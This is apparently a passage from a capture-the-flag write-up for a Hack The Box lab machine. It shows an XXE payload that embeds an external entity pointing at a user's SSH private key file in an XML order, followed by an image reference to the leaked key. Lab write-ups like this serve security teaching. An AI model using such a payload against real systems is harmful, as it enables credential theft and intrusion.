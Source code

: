 ## <u>SSH</u>
- I'm gonna put this as a payload

```xml
<?xml version = "1.0"?>
<!DOCTYPE foo [<!ENTITY example SYSTEM "file:///c:/users/daniel/.ssh/id_rsa"> ]>
<order>
    <quantity>
        1
    </quantity>
    <item>
        &example;
    </item>
    <address>
        Bed for sleeping of course
    </address>
</order>
```

- the result

![1](/assets/images/htb/markup/ssh-prikey.png)
